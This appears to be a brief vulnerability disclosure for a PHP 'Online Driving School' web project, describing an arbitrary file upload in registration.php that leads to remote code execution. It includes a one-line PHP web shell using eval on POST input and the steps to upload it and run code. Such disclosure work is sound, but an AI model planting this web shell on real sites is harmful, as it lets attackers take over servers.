 # Online Driving School Project In PHP Arbitrary File Upload And RCE

The Online Driving School Project is a simple mini project for driving institutes. The project contains admin, learners, and users. The user can either be police or victims/complainers. This project is for the institute of driver training first commenced its operations in managing the learners and people who want to take a good learners school as well as the admin which means the owner of the web application can select the best and near learners to the people and connect them both.

project link: https://code-projects.org/online-driving-school-project-in-php-with-source-code/



in /registration.php, an attacker can upload an arbitrary file

![](https://s2.loli.net/2022/09/05/tVGdwH4nvpD2soT.png)

which leads to remote code execution

## POC

First, register an user and choose a backdoor php file as user image

shell0.php

```php
<?php
eval($_POST[1]);
```





![](https://s2.loli.net/2022/09/05/NkBuGvirZOMpXoI.png)



then go to /admin/images/shell0.php and post shellcode

![](https://s2.loli.net/2022/09/05/Ifg8EmaFCJT1eck.png)



the code`phpinfo();`has been successfully executed. 